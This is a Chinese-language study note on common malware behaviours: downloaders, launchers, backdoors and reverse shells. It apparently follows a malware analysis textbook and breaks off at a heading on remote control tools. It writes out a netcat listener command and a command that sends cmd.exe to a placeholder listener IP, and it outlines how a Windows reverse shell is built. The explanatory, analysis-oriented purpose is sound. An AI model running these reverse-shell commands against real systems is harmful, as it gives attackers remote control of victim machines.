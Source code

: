 # 恶意代码行为

[TOC]



## 下载器和启动器

常见的两种恶意代码是下载器和启动器。下载器从互联网上下载其他恶意代码，然后在本地系统中运行。下载器通常会与漏洞利用打包在一起。下载器常用URLDownloadtoFileA和WinExec，来下载并运行新的恶意代码。

启动器是一类可执行文件。用来安装立即运行或者将来秘密执行的恶意代码。启动器通常包含一个它要加载的恶意代码。

## 后门

后门是另一种类型的恶意代码，它能让攻击者远程访问一个受害的机器。后门是一种最常见的恶意代码，它们拥有多种功能，并且以多种形式与大小存在。后门代码往往实现了全套功能，所以当使用一个后门时，攻击者通常不需要下载额外的恶意代码。

后门程序利用互联网的通信方式是多样的，但是一个常用的方法是利用80端口使用HTTP协议。HTTP是出站流量最常用的协议，所以它为恶意代码提供了一个与其他流量混淆的好机会。

后门拥有一套通用的功能，例如操作注册表、例举窗口、创建目录、搜索文件，等等。查看后门使用和导入到Windows函数，可以确定后门程序实现的功能。

### 反向shell

#### netcat反向shell

可以通过在两台机器上运行netcat，来创建一个反向shell。同时攻击者已经知道在恶意代码中使用netcat，或者和其他恶意程序一起打包使用。

netcat被作为一个反向shell使用时，远程机器使用下列命令，等待入站连接。

```shell
nc -l -p 80
```

-l选项设置Netcat为监听模式，-p用来设置监听端口。接下来受害机器向外连出，并且使用下列命令提供shell

```shell
nc listener_ip 80 -e cmd.exe
```

Listener_ip 80是远程机器的IP地址和端口。 -e选项用来指定建立连接后要运行的程序，并将这一程序标准输入输出与套接字进行绑定。

#### Windows反向shell

使用cmd.exe作为Windows系统中的反向shell，有两种简单的恶意编码实现：基础方法和多线程技术。

基础方法在而已代码编写者之间比较流行，因为他容易编写，且效果与多线程效果一致。它涉及CreateProcess函数的调用,并操纵传递给CreateProcess的STARTUOINFO结构。首先，创建一个套接字，并与远程服务器建立连接。然后绑定这个套接字和cmd.exe标准流（标准输入、标准输出、以及标准错误）。调用CreateProcess函数用隐藏窗口的方式创建cmd.exe程序，对受害者隐藏cmd.exe进程。

Windows反向shell的多线程版本涉及一个套接字、两个管道、两个套接字的创建（查询API调用函数CreateThread、CreatePipe）。恶意代码有时将这种方法作为策略，来篡改或编码经过一个套接字传入或传出数据。CreatePipe用来绑定一个管道的读写端，如标准输入和标准输出。CreateProcess用来绑定一个管道和标准流，而不是直接与套接字绑定，调用CreateProcess方法，恶意代码会产生两个线程：一个用来从标准输入管道读数据，并且向套接字写数据，另一个用来向套接字读数据，并且向一个标准输入管道写数据。通常这两个线程使用数据编码来篡改数据。需要逆向这些线程使用的加密和解密的例程，来解密加密会话中抓取的数据报包。

### 远程控制工具

